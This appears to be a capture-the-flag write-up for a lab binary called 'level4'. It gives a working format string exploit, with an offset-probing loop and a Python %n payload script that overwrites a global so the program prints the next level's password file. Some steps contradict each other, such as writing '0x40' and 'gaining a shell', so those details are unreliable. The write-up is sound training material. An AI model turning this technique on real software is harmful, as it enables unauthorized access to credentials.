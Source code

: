 <h1 align="center"> LEVEL 4 </h1>

## 🔍 Analysis of Decompiled [level4](./source.c)
The target is a vulnerable binary named `level4`. Our goal is to:

- Exploit a **format string vulnerability** in `printf()`
- Overwrite a global variable `m` with the value `0x1025544`
- Satisfy the condition `if (m == 0x1025544)` to execute ` system("/bin/cat /home/user/level5/.pass")`


### 🔐 Binary Protections

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4

void p(char *param_1)

{
  printf(param_1);
  return;
}

void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

```
## 💥 Exploit 

Leak stack contents to determine the correct format string offset
Use %n to write `0x40` to the address of the global variable m
Trigger the condition and gain a shell

###  Step 1: Find the Address of m

```sh
(gdb) p &m
$1 = (int *) 0x08049810
```
### Step 2: Discover Format String Offset

```sh
for i in $(seq 1 40); do
  python -c "print('AAAA' + ' %%%d\$x' % $i)" | ./level4
done
```
Look for `41414141` in the output. appears at `%11$x`, that means the offset is 11.
### Step 3: Exploit Script
```py
import struct
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <offset>")
    sys.exit(1)

offset = int(sys.argv[1])

m_addr = struct.pack("<I", 0x08049810)
target_val = 0x1025544
written = len(m_addr)

padding = target_val - written
if padding < 0:
    padding += 256

fmt = "%%%dx%%%d$n" % (padding, offset)
payload = m_addr + fmt.encode("ascii")

with open("payload.txt", "wb") as f:
    f.write(payload)

print("Wrote payload with offset %d" % offset)


```
### Step 4: Execute the Exploit
```
python exploit.py 11
(cat payload.txt; cat) | ./level4
$ whoami
level4
```
